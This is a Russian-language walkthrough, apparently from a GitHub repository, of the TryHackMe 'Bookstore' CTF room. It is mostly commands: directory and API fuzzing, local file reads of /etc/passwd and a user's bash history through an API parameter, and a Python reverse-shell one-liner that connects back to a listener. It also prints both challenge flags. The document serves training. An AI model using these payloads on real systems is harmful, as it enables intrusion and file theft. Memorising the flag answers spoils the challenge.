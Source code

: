 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Bookstore](https://tryhackme.com/r/room/bookstoreoc) 

Всего 1 заданиe:
## Задание 1
Bookstore — это машина boot2root CTF, которая обучает начинающего тестировщика на проникновение основам перечисления 
веб-сайтов и фаззингу REST API. При перечислении сервисов можно найти несколько подсказок, идея в том, чтобы понять,
как можно эксплуатировать уязвимый API, вы можете связаться со мной в Twitter @siddhantc_, чтобы дать любые отзывы 
относительно машины.

### Ответьте на вопросы ниже
Пользовательский флаг
```commandline
nmap -sSCV <IP>
gobuster dir -u http://<IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
gobuster dir -u http://<IP>:5000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
ffuf -u "http://<IP>:5000/api/v1/resources/books?FUZZ=1" -w /usr/share/wordlists/dirb/small.txt
http://<IP>:5000/api/v1/resources/books?show=1
http://<IP>:5000/api/v1/resources/books?show=/etc/passwd
http://<IP>:5000/api/v1/resources/books?show=/home/sid/user.txt
http://<IP>:5000/api/v1/resources/books?show=./bash_history
```
```commandline
4ea65eb80ed441adb68246ddf7b964ab
```
Корневой флаг
```commandline
nc -nlvp 4444

import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
./try-harder
cat /root/root.txt
```
```commandline
e29b05fba5b2a7e69c24a450893158e3
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)